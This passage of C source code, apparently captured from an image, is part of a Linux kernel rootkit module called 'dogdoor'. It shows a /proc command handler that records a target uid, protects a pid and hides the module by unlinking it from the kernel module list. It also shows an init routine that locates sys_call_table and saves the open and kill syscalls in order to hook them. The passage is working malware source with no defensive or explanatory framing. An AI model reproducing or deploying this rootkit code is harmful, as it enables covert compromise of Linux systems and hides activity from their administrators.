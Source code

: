             if (copy_from_user(buf, ubuf, size))
                    return -EFAULT ;
    
            //get the input as integer type command
            sscanf(buf, "%d", &command);
    
            cs = command%10;
            param = command/10;
    
            //stalker gets the uid
            if(cs == 1)        saved_uid = param;
    
            //pid savior starts working
            else if(cs == 2){
                    if(param == 0) saved_pid = -1;
                    saved_pid = param;
            }
    
            //toggle hiding and showing a module to the list
            else if(cs == 3){
                    //if hidden, read the module to the head
                    if(hidden) list_add_tail(&THIS_MODULE->list, head);
                    //else save the head and remove the module from the list
                    else{
                            head = THIS_MODULE->list.prev;
                            list_del(&THIS_MODULE->list);
                    }
                    //toggle
                    hidden = !hidden;
            }
    
    
            *offset = strlen(buf) ;
    
            return *offset ;
    }
    
    static const struct file_operations dogdoor_fops = {
            .owner =         THIS_MODULE,
            .open =         dogdoor_proc_open,
            .read =         dogdoor_proc_read,
            .write =         dogdoor_proc_write,
            .llseek =         seq_lseek,
            .release =         dogdoor_proc_release,
    } ;
    
    static
    int __init dogdoor_init(void) {
            unsigned int level ;
            pte_t * pte ;
    
            proc_create("dogdoor", S_IRUGO | S_IWUGO, NULL, &dogdoor_fops) ;
    
            //get the system call table to intercept
            sctable = (void *) kallsyms_lookup_name("sys_call_table") ;
    
            //save the original system call for open and kill
            orig_sys_open = sctable[__NR_open] ;
            orig_sys_kill = sctable[37];
    